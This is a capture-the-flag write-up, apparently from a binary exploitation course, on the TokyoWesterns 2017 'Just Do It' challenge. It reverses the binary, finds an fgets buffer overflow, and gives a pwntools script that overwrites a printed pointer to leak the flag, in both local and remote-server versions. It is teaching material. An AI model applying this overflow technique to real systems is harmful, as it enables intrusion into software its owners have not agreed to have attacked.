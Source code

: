 # Just Do It!

This was done on `Ubuntu 20.04.4`, although the exact ubuntu version probably doesn't matter too much for this one. This was originally a pwn challenge from the TokyoWesterns 2017 ctf.

Let's take a look at the binary:

![intro_data](pics/intro_data.png)

So we can see that it is a 32 bit binary, with a non executable stack.. When we run it, we can see it is complaining about a file opening error, probably trying to open a file that isn't there. Let's look at the main function in Ghidra:

![main](pics/main.png)

So we can see that the file it is trying to open is `flag.txt`. When we create the file `flag.txt`, we see that we can actually run the binary:

![flag_setup](pics/flag_setup.png)

We can also see that this binary will essentially prompt you for a password, and if it is the right password it will print in a logged in message. If not it will print an authentication error. Let's see what the value of `PASSWORD` is, so we can know what we need to set our input equal to to pass the check. We see this via double clicking on `PASSWORD`:

![password_val](pics/password_val.png)

So we can see that the string it is checking for is `P@SSW0RD`. Now since our input is being scanned in through an fgets call, a newline character `0x0a` will be appended to the end. So in order to pass the check we will need to put a null byte after `P@SSW0RD`. So we can see the value of the password is `P@SSW0RD`. So we should be able to pass the check with this script:

![solve_check](pics/solve_check.png)

Which we can run like this:

![run_solve](pics/run_solve.png)


So we passed the check, however that doesn't solve the challenge. We can see that with the fgets call, we can input 32 bytes worth of data into `input`. Let's see how many bytes `input` can hold:

![stack_frame](pics/stack_frame.png)

So we can see that it can hold 16 bytes worth of data (0x28 - 0x18 = 16). So we effectively have a buffer overflow vulnerability with the fgets call to `input`. However it appears that we can't reach the `eip` register to get RCE. However we can reach `printedPtr` which is a char ptr that is printed with a puts call, right before the function returns. So we can print whatever we want, as long as we have the address for it. That makes this code look really helpful:

![fread](pics/fread.png)

So we can see here that after it opens the `flag.txt` file, it scans in 48 bytes worth of data into `flag`. This is interesting because if we can find the address of `flag`, then we should be able to overwrite the value of `target` with that address and then it should print out the contents of `flag`, which should be the flag.

![flag_bss](pics/flag_bss.png)

So here we can see that `flag` lives in the bss, with the address `0x0804a080`. There are 20 bytes worth of data between `input` and `printedPtr` (0x28 - 0x14 = 20). So we can form a payload with 20 null bytes, followed by the address of `flag`. Here is the exploit to do just that:

```
#Import pwntools
from pwn import *

#Create the remote connection to the challenge
target = process('just_do_it')
#target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)

#Print out the starting prompt
print target.recvuntil("password.\n")

#Create the payload
payload = "\x00"*20 + p32(0x0804a080)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell, so we can read everything the server prints out
target.interactive()
```

So we were able to read the contents of `flag.txt` with our exploit. In the actual ctf, we would change this to run against the remote server, which would look like this (but that's beyond the scop of this couse, we're only worried about running challenges locally):

```
#Import pwntools
from pwn import *

#Create the remote connection to the challenge
#target = process('just_do_it')
target = remote('pwn1.chal.ctf.westerns.tokyo', 12482)

#Print out the starting prompt
print target.recvuntil("password.\n")

#Create the payload
payload = "\x00"*20 + p32(0x0804a080)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell, so we can read everything the server prints out
target.interactive()
```

Now let's run it:

![flag_bss](pics/flag_bss.png)

Just like that, we captured the flag!
